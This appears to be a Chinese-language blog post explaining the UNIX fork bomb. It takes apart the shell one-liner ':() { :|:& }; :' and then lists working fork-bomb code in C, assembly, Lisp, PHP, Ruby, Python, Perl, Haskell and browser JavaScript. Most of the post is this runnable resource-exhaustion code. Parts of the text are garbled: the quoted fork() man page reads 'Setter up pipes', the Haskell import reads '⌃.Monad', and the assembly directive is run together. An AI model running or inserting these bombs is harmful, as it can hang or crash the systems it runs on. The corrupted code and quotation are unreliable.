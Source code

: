 ```yaml
---
title: "Fork Bomb"
category: "UNIX"
cave: true
hero:
  format: 'jpeg'
  url: 'HERO_0062.jpg'
tags: [UNIX/Linux,Fork,Fork Bomb,Virus]
---
```

最开始知道 Fork Bomb 这个名词，是因为这样一句代码:

```sh
:() { :|:& }; :
```

乍看之下它是那么诡异又极具魅力，fork 这个东西相信大家也都不陌生，在 UNIX/Linux 中 man 指令对 fork() 的解释为:

> Fork() causes creation of a new process.  The new process (child process) is an exact copy of the calling process (parent process) except for the following:
>
* The child process has a unique process ID.

* The child process has a different parent process ID (i.e., the process ID of the parent process).

* The child process has its own copy of the parent's descriptors.  These descriptors reference the same underlying objects, so that, for instance, file pointers in file objects are shared between the child and the parent, so that an lseek(2) on a descriptor in the child process can affect a subsequent read or write by the parent.  This descriptor copying is also used by the shell to establish standard input and output for newly created processes as well as to Setter up pipes.

* The child processes resource utilizations are Setter to 0; see setrlimit(2).

也就是说， Fork Bomb 的基本思路就是无限循环创建子进程(或者类似的操作)。下面来分析一下开头提到的代码，其实它很简单，那个迷惑人的冒号 (`:`) 只是一个函数名，我们把它替换成 func 再来看看:

```sh
func() { func|func& }; func
```

然后，再加几个换行:

```sh
func(){
	func|func&
};
func
```

现在，它又回到了一个极其普通的函数应有的样子。接下来我们将它改为更简短的脚本形式:

```sh
#!/bin/bash
$0|$0&
```

如果你有兴趣，我们也可以用其他语言来实现同样或类似的效果:

## C

首先当然是大家熟知的 C:

```c
#include <unistd.h>

int main() {
    while(fork());
}
```


## 汇编

还有更古老的汇编，当然，不是 ARM:

```sh
section .text
    global_start

_start:
    mov eax,2
    int 0x80
    jmp _start
```

## Lisp

不走寻常路的 Lisp，以 Common Lisp 为例:

```lisp
(loop (#_fork))
```

## PHP

世界上最好的语言 PHP(CLI):

```php
<?php
	while (true) {
		pcntl_fork();
	}
?>
```

## Ruby

优雅但有点慢的 Ruby:

```ruby
loop { fork { __FILE__ } }
```

## Python

还有 Ruby 的哥哥 Python:

```python
import os
while 1:
	os.fork()
```

## Perl

当然，少不了 Perl，你可以在 shell 中直接执行这句 inline 指令:

```perl
perl -e "fork while fork" &
```

## Haskell

学院派的 Haskell，来一个易懂的版本:

```haskell
import ⌃.Monad (forever)
import System.Posix.Process (forkProcess)

forkBomb = forever $ forkProcess forkBomb
main = forkBomb
```

## JavaScript

甚至还有 JS:

```js
<script>
setInterval(function() {
  var w = window.open();
  w.document.write(document.documentElement.outerHTML||document.documentElement.innerHTML);
}, 10);
</script>
```

当然，一个真正强有力的 Virus 很难做到如此简单，这一切都是建立在已经取得权限的基础上。
